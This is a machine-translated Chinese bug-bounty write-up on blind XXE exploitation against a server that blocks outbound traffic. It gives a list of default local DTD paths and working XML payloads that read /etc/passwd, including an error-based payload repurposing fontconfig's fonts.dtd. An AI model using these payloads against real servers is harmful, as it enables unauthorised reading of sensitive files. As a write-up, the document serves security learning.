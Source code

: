 # 在强化服务器上使用 XXE 进行数据渗透

> 原文：<https://infosecwriteups.com/data-exfiltration-using-xxe-on-a-hardened-server-ef3a3e5893ac?source=collection_archive---------4----------------------->

![](img/240b2ebca861a98f9012b15b4b921ba1.png)

图片来源:[https://www . net sparker . com/blog/we b-security/xxe-XML-external-entity-attacks/](https://www.netsparker.com/blog/web-security/xxe-xml-external-entity-attacks/)

> 这是 XXE 的一个特例，所以在阅读本文之前，最好先了解一下 XXE 的基本情况。

XXE 代表 XML 外部实体。这是 OWASP 十大安全错误配置的一部分。该漏洞使得攻击者能够将 XML 解析器转换为代理。成功利用该漏洞会导致本地文件泄漏到 SSRF 甚至 RCE。

关于 XXE 已经说得够多了，到了剥削的部分。

# **检测和不成功的攻击尝试**

作为我自动化的一部分，常规的细胞核扫描导致了盲 XXE 的检测。目标服务器在被注入带有 interact sh(burp collaborator 的项目发现替代方案)URL 的 XXE 有效负载时，正在对主机名进行 DNS 查找。注入点在网页正文中，只需将请求从 GET 改为 POST，将内容类型改为 text/xml。当提供有效负载时，服务器没有返回任何内容(完全没有响应)。

*那么怎么回事，失明的 XXE 不能被剥削吗？*

是的，它可以被利用，但有一些 WAF 阻止了所有传出的 http 流量。对于盲 XXE，我们可以托管任何外部 DTD 文件，并让 XML 解析器向该文件发送请求，因为出站 *http* 流量被阻止，我们可以通过任何上传功能在目标 web 服务器内部托管它，但网站没有尝试文件上传的功能。

# 成功的尝试

由于上传被阻止，我们可以使用一些内部 DTD 文件进行基于错误的攻击。

> 来源如下(1)

DTD 是一种文档类型定义。它规定了 XML 文档的结构、元素和属性。

服务器上只有 http、ftp 和文件协议。希望在列举其他协议时，服务器响应一些错误。我们可以检查文件是否存在，我们可以使用*文件*协议。为了列举其他协议，我只是将“*文件”*替换为其他协议(gopher、smtp、ftp 等)并查看错误消息。如果文件不存在，服务器会响应(没有这样的文件)以及其他错误。

![](img/2d0a35f01a9471801ad388966ecc15c3.png)

```
<?xml version=”1.0"?>
<!DOCTYPE foo SYSTEM “file:///etc/passwd”>
<foo>&e1;</foo>
```

![](img/4fe10b49e14b19ae5375674b959e5fc8.png)

这也证实了 XXE 注射液的存在，现在我们有“东西”可以玩了。

这里常规的实体被阻塞了，所以我们必须使用一个包含预定义实体的 DTD 文件。WAF 阻止了所有传出的 http 流量，没有办法上传文件，所以唯一的办法是使用服务器上已经存在的文件。默认情况下，操作系统包含一些 DTD 文件。在 Linux 系统中，其中一些是:

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

> 来源如下(2)

现在，对于基于错误的攻击，有必要了解 DTD 文件中存在的实体。同样，我们可以使用如上所示的*文件*协议，通过提供各种文件路径并查看错误消息来检查 DTD 文件的存在。在我的测试中，我发现“/usr/share/XML/font config/fonts . dtd”文件存在于系统中。fonts.dtd 文件有一个可注入的实体“%constant”。现在我只需要知道我要导出的文件的位置。对于 PoC 来说，“/etc/passwd”的内容就足够了。最终的有效载荷看起来像:

```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd"><!ENTITY % constant 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///ritik/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>%local_dtd;
]>
<message>Text</message>
```

这个有效负载的工作方式类似于基于错误的 XXE，唯一的不同是我们使用一个已经存在的 dtd 文件来触发错误。

发送此有效负载时，解析错误包含指定文件的敏感数据。

![](img/394674f68bd104a1b47f00d45bf5259b.png)

# **资源**

这些是我成功利用的资源。

1.  发现这项技术的 [Arseniy Sharoglazov](https://mohemiv.com/) 的博客:[https://mohemiv . com/all/exploining-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
2.  发现本地 dtd 文件:[https://www . go secure . net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/)
3.  各种默认 dtd 文件中存在的实体列表:[https://github . com/go secure/dtd-finder/blob/master/list/xxe _ payloads . MD](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md)
4.  基于错误的 XXE 如何工作:[https://ports wigger . net/we b-security/xxe/blind # exploining-blind-xxe-to-retrieve-data-via-error-messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages)
5.  Portswigger 实验室练习:[https://portswigger . net/we b-security/xxe/blind/la b-xxe-trigger-error-message-by-re purposing-local-dtd](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)
